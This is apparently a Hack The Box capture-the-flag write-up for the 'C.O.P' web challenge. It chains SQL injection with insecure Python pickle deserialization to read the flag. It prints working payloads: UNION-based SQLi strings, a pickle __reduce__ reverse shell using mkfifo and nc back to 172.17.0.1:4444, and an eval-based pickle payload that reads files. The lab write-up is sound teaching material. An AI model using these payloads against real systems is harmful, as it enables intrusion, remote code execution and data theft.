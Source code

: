 # HTB-Challenges-Web-COP

## Challenge Description
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

![localhost_1337_(Nest Hub Max)](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/999d7d68-5db6-4b8f-b08c-5e9a6186d433)

## Reconnaissance
While scanning the code, two files stood out: **application/models.py** and **application/blueprints/routes.py**. Analyzing the code within these files reveals a concerning vulnerability. The application appears to be using path parameters directly within its SQL queries, without proper validation or sanitization. This practice makes the application highly susceptible to SQL injection attacks (SQLi).
```py
class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

The application uses the Jinja2 template engine, which is known to be vulnerable to SSTI attacks if not configured correctly. Additionally, before displaying, the data also undergoes processing using Jinja Filters, as indicated by the syntax `{% set item = product | pickle %}`

```jinja
<div class="row gx-4 gx-lg-5 align-items-center">
    {% set item = product | pickle %}
    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
    <div class="col-md-6">
        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
        <div class="fs-5 mb-5">
            <span>£{{ item.price }}</span>
        </div>
        <p class="lead">{{ item.description }}</p>
    </div>
</div>
```

The method of storing data in the database is intriguing. Each row consolidates information into a single field, employing an encoding technique that uses `pickle` and `base64`. This leads to the use of Jinja Filters for decoding the data.

```py
with open('schema.sql', mode='r') as f:
    shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
    get_db().cursor().executescript(f.read().format(*list(shop)))
```

## Scanning
Initially, I conducted a test for SQL injection. It's worth noting that the application employs SQLite, limiting the potential for Remote Code Execution (RCE) in this context.

![localhost_1337_view_%27%20OR%20%271%27%3D%271](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/7f5c3012-f028-4bb7-a379-6e5df22d1c4b)

We successfully injected the payload `' OR '1'='1` or `%27%20OR%20%271%27%3D%271` into the product ID via URL path parameters, allowing us to retrieve the first item. Now, our goal is to display an item that we can control, facilitating testing for Server-Side Template Injection (SSTI) or template injection.

To achieve this, I plan to create a Python script that generates a dictionary with fields similar to those the application uses. Since Jinja accesses both objects and dictionaries using dot notation, a dictionary will suffice. Additionally, I'll encode it in a way that the application can decode and display as intended.

```py
evil_item = {
    "name": "Some name",
    "description": "Some description",
    "price": "100",
    "image": "/static/images/not_found.jpg",
}

print(base64.b64encode(pickle.dumps(evil_item)).decode())
# gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```

With the encoded item in hand, my next step is to showcase it in the application. I'll employ the `UNION` technique. Initially, I'll deliberately attempt to fetch non-existent data from the database and then append my encoded object to the result. This ensures that my encoded object becomes the sole data returned by the query.

```sql
' UNION SELECT 'gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```
```
%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D
```

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/25844325-c408-4ac3-b16f-4ab560be673f)

## Exploitation 1 - SSTI *(Failed)*
Now that I have a way to inject a payload that controls the application's dynamic aspects, I can attempt various vulnerabilities to read the flag. The first vulnerability to test is SSTI, so I will create a payload to confirm if the application is susceptible to it.

```py
evil_item = {
    "name": "{{ 7*7 }}",
    "description": "{{ 7*7 }}",
    "price": "{{ 7*7 }}",
    "image": "{{ 7*7 }}",
}
```

Unfortunately for me, it's not.

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVPAAAAAAAAAB9lCiMBG5hbWWUjAl7eyA3KjcgfX2UjAtkZXNjcmlwdGlvbpRoAowFcHJpY2WUaAKMBWltYWdllGgCdS4%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/592b423b-3ffb-4527-bb7b-61531f661947)

## Exploitation 2 - Reverse Shell via Insecure Deserialization *(Failed)*
A while back, I learned about a vulnerability called *Insecure Deserialization*. This vulnerability varies across programming languages, but the core concept is that during deserialization, specific built-in methods are invoked to create the final output. These methods can be manipulated by attackers to execute arbitrary code.

Since the application seems to be heavily reliant on `pickle`, let's start our investigation there. A quick search for "python pickle vulnerability" led me to this informative blog post: https://davidhamann.de/2020/04/05/exploiting-python-pickle/. This article discusses exploiting the `__reduce__` method to establish a reverse TCP connection.

To the best of my understanding, this vulnerability works by creating a named pipe. A TCP connection writes data to the pipe, and `/bin/sh` reads and executes the received data. This effectively allows remote code execution on the vulnerable system.

```py
class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 172.17.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```

After ensuring that the test container can run each individual command and connect back to my controlled server, I proceeded to put it to the test. I started a netcat server using the command `nc -lnvp 4444`. This would allow the application to connect to my server and accept commands.

Unfortunately, despite confirming that each individual command worked within the container, the application failed to connect to the server. I tried various reverse shell payloads from the following resource: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md. While the Python payloads functioned within my test environment, they were ineffective in exploiting the actual application.

## Exploitation 3 - Code Evaluation via Insecure Deserialization *(Success)*
To provide further clarification on the `__reduce__` exploit, it's important to understand that `pickle` utilizes its return values in constructing the deserialized object. The initial return value is a callable, and the second is a `tuple` intended to serve as the arguments for the callable. In the typical scenario, it would resemble something like this:

```py
def __reduce__(self):
    return self.__class__, (self.arg_1, self.arg_2,)
```

With this understanding, I can leverage the `eval` function to access the flag and generate a dictionary that the application can then render.

```
class RCE:
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return (eval, (self.payload,))

item = RCE("{'name': open('flag.txt', 'r').read()}")

print(base64.b64encode(pickle.dumps(item)).decode())
```

As evident, I've only included the `name` property in the return. To be candid, I'm taking a bit of a shortcut here by not specifying the other properties. I'm hoping that the application won't crash due to these missing details. The final step involves testing the payload against the application.

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVQgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwmeyduYW1lJzogb3BlbignZmxhZy50eHQnLCAncicpLnJlYWQoKX2UhZRSlC4%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/f7c8a486-69e3-4cb4-8870-3c2f418b2578)

After validating it in a controlled environment, testing the payload against the live application also yields positive results. Flag successfully captured!

## Post-Exploitation
